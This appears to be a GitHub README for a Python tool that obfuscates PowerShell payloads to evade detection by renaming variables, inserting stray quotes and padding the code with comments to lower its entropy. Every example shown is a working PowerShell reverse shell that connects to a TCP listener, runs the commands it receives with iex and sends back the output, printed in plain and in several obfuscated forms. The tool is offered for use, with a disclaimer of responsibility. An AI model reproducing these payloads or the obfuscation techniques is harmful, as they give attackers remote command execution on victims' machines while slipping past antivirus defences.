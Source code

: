 # auto_powershell_obfuscation - Beta

## Description

An automated tool for obfuscation of a powershell script.
This tool is for experimental purposes, I am not responsible for your actions.

## Usage

```
python3 obfuscator.py -f <YOUR_PAYLOAD> -m <MODE>
```

```powershell
PS C:\auto_powershell_obfuscation> python3 .\obfuscator.py -f .\test_payload.txt

New Payload 

$48b23f7aaadc4e96932c24c2fd6c1430 = N""ew-Object Sy''s""tem.Net.Sockets.TCPClient('127.0.0.1',8181);$be30aeef96bc427db72645b20e22b4bc = $48b23f7aaadc4e96932c24c2fd6c1430.GetStream();[byte[]]$0e2e781a1e26488f98d4d5057254669d = 0..65535|%{0};while(($143b0ba8bb9d4270963f5d48892cf60e = $be30aeef96bc427db72645b20e22b4bc.Read($0e2e781a1e26488f98d4d5057254669d, 0, $0e2e781a1e26488f98d4d5057254669d.Length)) -ne 0){;$b98b18b0b96a4336ab5c1b5f53172f6e = (New-Object -TypeName Syst""em.Text.ASCIIEncoding).GetString($0e2e781a1e26488f98d4d5057254669d,0, $143b0ba8bb9d4270963f5d48892cf60e);$82f0188570bb4842ae4d302dec137166 = (i""ex $b98b18b0b96a4336ab5c1b5f53172f6e 2>&1 | Out-String );$8a7ef545026b4a2e807bc6a667c70cbe = $82f0188570bb4842ae4d302dec137166 + 'PS ' + (pwd).Path + '> ';$2e6d40d1196a40569af7fac1184d3696 = ([text.encoding]::ASCII).GetBytes($8a7ef545026b4a2e807bc6a667c70cbe);$be30aeef96bc427db72645b20e22b4bc.Write($2e6d40d1196a40569af7fac1184d3696,0,$2e6d40d1196a40569af7fac1184d3696.Length);$be30aeef96bc427db72645b20e22b4bc.Flush()};$48b23f7aaadc4e96932c24c2fd6c1430.Close()

New payload entropy: 5.138376499232824
```

## Mode

### Var

**var** mode only changes the names of your variables according to the entropy rules.

```powershell
PS C:\auto_powershell_obfuscation> python .\obfuscator.py -m var -f .\payload.txt 

$4fe310251c7d4c8f937142076d281ce6 = New-Object System.Net.Sockets.TCPClient('127.0.0.1',8181);$45cbaabdf14f45a191c972b6307a6abb = $4fe310251c7d4c8f937142076d281ce6.GetStream();[byte[]]$95c66e4518fc49bdbe1a369ca1fa4588 = 0..65535|%{0};while(($b9285b898cbe4628aa860f2608aa2195 = $45cbaabdf14f45a191c972b6307a6abb.Read($95c66e4518fc49bdbe1a369ca1fa4588, 0, $95c66e4518fc49bdbe1a369ca1fa4588.Length)) -ne 0){;$f26c594770184cb9ad926878184d061d = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($95c66e4518fc49bdbe1a369ca1fa4588,0, $b9285b898cbe4628aa860f2608aa2195);$2031bb366ddb4bd0a88e411227464baa = (iex $f26c594770184cb9ad926878184d061d 2>&1 | Out-String );$5dc4676c22014043b312ff6e180ba5ff = $2031bb366ddb4bd0a88e411227464baa + 'PS ' + (pwd).Path + '> ';$5d584a8b541a4220b78f14b13a6c9ee9 = ([text.encoding]::ASCII).GetBytes($5dc4676c22014043b312ff6e180ba5ff);$45cbaabdf14f45a191c972b6307a6abb.Write($5d584a8b541a4220b78f14b13a6c9ee9,0,$5d584a8b541a4220b78f14b13a6c9ee9.Length);$45cbaabdf14f45a191c972b6307a6abb.Flush()};$4fe310251c7d4c8f937142076d281ce6.Close()
```

### Boolean

**boolean** mode replaces simple $True or $False with equivalent boolean expressions.

`$True` => `[bool]1254`

### Quote - Beta

**quote** mode will sprinkle your code with quotation marks where they don't disturb the flow (/!\ beware /!\ this mode is not completely finished, check that it works properly before using it)

```powershell
C:\auto_powershell_obfuscation> python .\obfuscator.py -m quote -f .\payload.txt

$client = New-Object Sys""t''em.Net.Sockets.TCPClient('127.0.0.1',8181);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (N''ew-Object -TypeName Sy''st''em.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (p""wd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

### Gcm

**gcm** mode uses a trick that replaces cmdlets with a gcm call. This method reduces the entropy of our payload but also makes it slightly less efficient.

```powershell
PS C:\auto_powershell_obfuscation> python .\obfuscator.py -m gcm -f .\payload.txt

```

### Commentropy

**commentropy** mode creates long comments in your payload and reduces the entropy of your payload.

```powershell
PS C:\auto_powershell_obfuscation> python .\obfuscator.py -f .\payload.txt -m commentropy
$client <#*********************************#>=<#*******************************#> New-Object System.Net.Sockets.TCPClient('127.0.0.1',8181);$stream <#*********************************#>=<#*******************************#> $client.GetStream();[byte[]]$bytes <#*********************************#>=<#*******************************#> 0..65535|%{0};while(($i <#*********************************#>=<#*******************************#> $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data <#*********************************#>=<#*******************************#> (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback <#*********************************#>=<#*******************************#> (iex $data 2>&1 | Out-String );$sendback2 <#*********************************#>=<#*******************************#> $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte <#*********************************#>=<#*******************************#> ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

### Entropy

**entropy** mode allows you to calculate the entropy of your payload.

```powershell
C:\auto_powershell_obfuscation> python .\obfuscator.py -m entropy -f .\payload.txt

5.265027259625534
```
